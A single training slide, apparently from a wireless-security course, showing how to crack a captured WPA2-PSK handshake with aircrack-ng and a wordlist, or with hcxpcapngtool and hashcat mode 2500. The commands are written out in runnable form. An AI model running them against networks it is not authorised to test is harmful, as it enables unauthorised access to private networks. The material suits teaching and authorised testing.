

Demonstration | WPA2-PSK (3)

Crack the WPA2 Key
Use aircrack-ng with a dictionary file to crack the key:
aircrack-ng -w /path/to/wordlist handshake.cap
i.e. rockyou.txt

Alternatively, use hashcat for GPU-Powered cracking:
Convert the .cap file to a hash format...
hcxpcapngtool -o handshake.hccapx handshake.cap
Run Hashcat...
hashcat -m 2500 handshake.hccapx /path/to/wordlist